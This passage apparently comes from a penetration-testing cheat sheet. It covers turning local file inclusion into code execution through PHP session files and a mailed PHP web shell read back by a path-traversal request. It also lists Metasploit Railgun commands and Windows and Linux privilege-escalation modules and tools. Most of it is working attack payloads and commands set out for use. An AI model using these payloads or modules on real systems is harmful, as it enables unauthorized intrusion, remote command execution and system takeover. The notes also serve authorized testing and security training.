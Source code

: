 * Get PHP session location from PHP Information
* `cat /tmp/sess_<id>` to see the content of the session
* Set a cookie / session variable with the exploit code and access it over LFI

## Use emails

* Send email with SMTP and access it from LFI
```
telnet example.com 25
EHLO example.com
VRFY example@example.com
mail from:example1@example.com
rcpt to:example@example.com
data
Subject: S
<?php echo system($_REQUEST['cmd']); ?>

.
```

```
http://example.com/lfi?path=../../../var/mail/example
```

# Railgun

* allows direct access to Windows APIs

```
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>> client.railgun.shell32.IsUserAnAdmin
```

# Privilege Escalation

`post/muli/recon/local_exploit_suggester`

## Windows Local Escalation

exploit/windows/local/ms11_080_afdjoinleaf
exploit/windows/local/bypassuac -> getsystem

## Linux

LinEnum
LinuxPrivChecker
UnixPrivesc

```
uname -a
lsb_release -a
```
